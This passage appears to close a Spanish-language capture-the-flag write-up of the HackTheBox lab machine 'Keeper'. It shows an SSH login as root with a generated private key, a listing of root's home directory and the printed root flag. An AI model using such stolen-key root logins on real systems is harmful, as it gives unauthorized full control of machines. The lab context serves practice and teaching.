 - Intentamos entrar con ssh con la clave generada

```bash
ssh root@keeper.htb -i id_rsa
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

You have new mail.
Last login: Tue Oct 29 12:44:52 2024 from 10.10.16.2
root@keeper:~# ls -la
total 85384
drwx------  5 root root     4096 Oct 29 11:53 .
drwxr-xr-x 18 root root     4096 Jul 27  2023 ..
lrwxrwxrwx  1 root root        9 May 24  2023 .bash_history -> /dev/null
-rw-r--r--  1 root root     3106 Dec  5  2019 .bashrc
drwx------  2 root root     4096 May 24  2023 .cache
-rw-------  1 root root       20 Jul 27  2023 .lesshst
lrwxrwxrwx  1 root root        9 May 24  2023 .mysql_history -> /dev/null
-rw-r--r--  1 root root      161 Dec  5  2019 .profile
-rw-r-----  1 root root       33 Oct 29 11:53 root.txt
-rw-r--r--  1 root root 87391651 Jul 25  2023 RT30000.zip
drwxr-xr-x  2 root root     4096 Jul 25  2023 SQL
drwxr-xr-x  2 root root     4096 May 24  2023 .ssh
-rw-r--r--  1 root root       39 Jul 20  2023 .vimrc
root@keeper:~# cat root.txt 
fc24007e975259a610b2fe01e7fb6a30
root@keeper:~#
```

Como podemos ver ganamos el control total de la maquina y ya hemos completado este reto.
